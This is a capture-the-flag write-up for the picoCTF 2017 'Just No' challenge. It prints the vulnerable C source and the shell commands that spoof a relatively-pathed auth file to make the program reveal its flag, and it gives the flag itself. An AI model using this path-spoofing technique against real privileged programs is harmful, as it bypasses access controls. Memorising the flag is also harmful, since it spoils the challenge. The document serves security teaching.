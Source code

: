# picoCTF 2017: Just No

**Level:** 1 **Category:** BINARY EXPLOITATION **Point:** 40 **Description:**

>A program at /problems/ab718be873f8a7efe966f4ed5af749eb has access to a flag but refuses to share it. Can you convince it otherwise?

**Hint:**

>Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

## Write-up

``` 
$ cd /problems/ab718be873f8a7efe966f4ed5af749eb
ls
auth
flag
justno
justno.c
$ ./justno
auth file says no. So no. Just... no.
$ vim justno.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){
  FILE* authf = fopen("../../problems/ab718be873f8a7efe966f4ed5af749eb/auth","r"
); //access auth file in ../../../problems/ab718be873f8a7efe966f4ed5af749eb
  if(authf == NULL){
    printf("could not find auth file in ../../problems/ab718be873f8a7efe966f4ed5
af749eb/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/ab718be873f8a7efe966f4ed5af749eb/flag","r");
    char flag[64];
    fgets(flag,64,flagf);

```

This program use relative paths. So I just need add a fake path and a fake `auth` file.

```
$ cd ~
$ mkdir problems
$ mkdir problems/ab718be873f8a7efe966f4ed5af749eb
$ cd problems/ab718be873f8a7efe966f4ed5af749eb
$ echo "yes" > auth
$ /problems/ab718be873f8a7efe966f4ed5af749eb/justno
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 3a7cbd7c24f7d5369308333b045382e7
```

So the flag is `3a7cbd7c24f7d5369308333b045382e7`.